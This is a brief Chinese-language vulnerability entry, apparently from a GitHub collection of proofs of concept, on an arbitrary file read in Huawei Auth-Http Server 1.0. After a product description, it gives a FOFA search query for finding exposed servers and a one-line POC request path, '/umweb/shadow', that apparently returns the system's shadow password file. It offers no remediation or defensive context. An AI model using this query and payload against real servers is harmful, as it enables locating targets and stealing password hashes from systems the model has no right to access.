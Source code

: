 
## 华为Auth-Http Serve任意文件读取
华为Auth-Http服务,华为Auth-Http Server是一款安全认证服务器，在提供安全的远程登录和网络资源访问控制。支持多种认证方式和协议AAA、Radius、TACACS+等，可以实现用户身份认证、授权和审计等功能。同时，可广泛应用于企业、政府、教育等行业的安全架构中。华为Auth-Http Server 1.0任意文件读取，攻击者可通过该漏洞读取任意文件
## fofa
```
server="Huawei Auth-Http Server 1.0"
```

## POC
```
/umweb/shadow
```

![image](../../images/6e52e737-0076-4630-9d6f-a9f0a355b549.png)
